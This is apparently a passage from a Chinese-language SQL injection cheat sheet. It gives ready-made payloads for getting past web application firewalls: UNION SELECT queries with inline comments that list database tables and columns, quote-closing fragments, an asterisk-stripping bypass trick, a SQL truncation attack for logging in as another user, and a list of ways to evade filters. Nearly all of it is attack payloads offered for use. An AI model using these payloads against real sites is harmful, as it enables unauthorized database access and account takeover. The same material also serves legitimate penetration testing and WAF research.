 		id=1/*!UnIoN*/+SeLeCT+1,2,concat(/*!table_name*/)+FrOM /*information_schema*/.tables /*!WHERE */+/*!TaBlE_ScHeMa*/+like+database()– -   

		?id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE+TABLE_NAME=0x41646d696e-- 

10. 闭合

		%df'
		'
		and '1'='1
		%23
		#
		-- 123
		#、–+用于终结语句的查询

11. 利用WAF逻辑漏洞

		比如你分析到最后，发现所有的*都被换成空白了，就意味着你不能使用内联注释了，union+select也会给你返回一个403错误，在这种情况下，你应该充分利用*被替换成空白：
			id=1+uni*on+sel*ect+1,2,3--+
		这样的话，*被过滤掉了，但是union+select被保留下来了。这是常见的WAF bypass技巧，当然不仅仅是union+select，其他的语法被过滤了都可以采用这种的。找到被替换的那个关键字，你就能找到绕过的方法

12. sql约束攻击

		1. 在所有的INSERT查询中，SQL都会根据varchar(n)来限制字符串的最大长度。也就是说，如果字符串的长度大于“n”个字符的话，那么仅使用字符串的前“n”个字符。比如特定列的长度约束为“5”个字符，那么在插入字符串“vampire”时，实际上只能插入字符串的前5个字符，即“vampi”
		2. 在SQL中执行字符串处理时，字符串末尾的空格符将会被删除。换句话说“vampire”等同于“vampire ”，对于绝大多数情况来说都是成立的（诸如WHERE子句中的字符串或INSERT语句中的字符串）例如以下语句的查询结果，与使用用户名“vampire”进行查询时的结果是一样的。
		3. 使用“vampire”与random_pass即可登录绕过
		4. 但也存在异常情况，最好的例子就是LIKE子句了。注意，对尾部空白符的这种修剪操作，主要是在“字符串比较”期间进行的。这是因为，SQL会在内部使用空格来填充字符串，以便在比较之前使其它们的长度保持一致。

##SQLi Filter Evasion Cheat sheet
###Cheat sheet

	#注释
	‘ or 1=1#
	‘ or 1=1/* (MySQL < 5.1)
	' or 1=1;%00
	' or 1=1 union select 1,2 as `
	' or#newline
	' /*!50000or*/1='1
	' /*!or*/1='1
	#前缀
	+ – ~ !
	‘ or –+2=- -!!!’2
	#操作符：
	^, =, !=, %, /, *, &, &&, |, ||, , >>, <=, <=, ,, XOR, DIV, LIKE, SOUNDS LIKE, RLIKE, REGEXP, LEAST, GREATEST, CAST, CONVERT, I
	S, IN, NOT, MATCH, AND, OR, BINARY, BETWEEN, ISNULL
	#空格
	%20 %09 %0a %0b %0c %0d %a0 /**/
	‘or+(1)sounds/**/like“1“–%a0-
	‘union(select(1),tabe_name,(3)from`information_schema`.`tables`)#
	#有引号的字符串
	SELECT ‘a’
	SELECT “a”
	SELECT n’a’
	SELECT b’1100001′
	SELECT _binary’1100001′
	SELECT x’61′
	#没有引号的字符串
	‘abc’ = 0×616263
	' and substr(data,1,1) = 'a'#
	' and substr(data,1,1) = 0x61 # 0x6162
	' and substr(data,1,1) = unhex(61) # unhex(6162)
	' and substr(data,1,1) = char(97 )# char(97,98)